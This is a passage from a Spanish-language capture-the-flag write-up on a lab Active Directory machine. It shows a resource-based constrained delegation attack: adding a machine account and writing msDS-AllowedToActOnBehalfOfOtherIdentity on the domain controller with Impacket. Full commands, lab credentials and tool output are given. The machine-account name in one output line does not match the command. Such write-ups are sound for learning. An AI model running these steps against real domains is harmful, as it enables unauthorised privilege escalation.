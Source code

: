 Utilizando bloodhound para ver los permisos de esta usuaria, podremos notar algo que llama potencialmente la atención:

![GenericWrite](/assets/writeups/freelancer/10.png)

Vaya pues... prácticamente tenemos GenericWrite sobre casi todo xd.

Eso nos da privilegios para editar atributos no privilegiados, y entre todos esos objetos está el de la máquina DC que bien sabemos, nos permitará hacer un ataque de RBCD.

Primero agregemos una nueva computadora al equipo

```bash
❯ addcomputer.py -computer-name 'uwuowo$' -dc-host freelancer.htb 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.12.0.dev1+20240411.142706.1bc283f - Copyright 2023 Fortra

[*] Successfully added machine account uwuawa$ with password yXDsT1TaUe0ipLAfOLON09g53J4ZFkHF.
```

Luego, escribiremos en la propiedad `msDS-AllowedToActOnBehalfOfOtherIdentity` de `DC$` el nombre de la cuenta de equipo que acabamos de crear.

```bash
❯ rbcd.py -delegate-to 'DC$' -delegate-from 'uwuowo$' -action write 'freelancer.htb/lorra199:PWN3D#l0rr@Armessa199'
Impacket v0.12.0.dev1+20240411.142706.1bc283f - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] uwuowo$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     uwuowo$      (S-1-5-21-3542429192-2036945976-3483670807-11601)
```

Ahora finalmente podemos obtener un ticket como Administrador, impersonandolo desde `uwuowo$`:
